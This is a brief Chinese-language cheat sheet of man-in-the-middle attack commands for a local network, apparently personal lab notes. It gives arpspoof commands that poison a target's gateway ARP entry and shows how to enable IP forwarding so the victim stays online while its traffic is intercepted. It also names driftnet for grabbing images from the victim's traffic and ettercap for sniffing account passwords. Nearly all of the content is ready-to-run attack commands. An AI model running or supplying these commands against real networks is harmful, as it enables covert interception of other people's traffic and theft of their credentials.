 #arp
## arp攻击
### 向目标机器广播虚假的网关mac地址
```
arpspoof -i eth0 -t 靶机ip 攻击机ip
--对ip192.168.2.134 进行网关欺骗,此时若不打开ip_forward转发则134无法访问外网
sudo arpspoof -t 192.168.2.134  192.168.2.1  -i eth0
```

### 查看ip对应mac地址
```
arp -a
sudo arping 192.168.2.127
```

### 开机ip_forward转发
```
sudo vim /etc/sysctl.conf
/proc/sys/net/ipv4/ip_forward值经常变换
将里面net.ipv4.ip_forward的值改为 1
然后执行
sysctl -p

另外ip_forward可以打通2个不同的网段
```

### driftnet
```
利用driftnet 目标机器网络中传输的图片
```

### ettercap
```
ettercap -Tq -i eth0进行账号密码嗅探，但是此处测试了下并没有抓到相关账户密码信息。
```
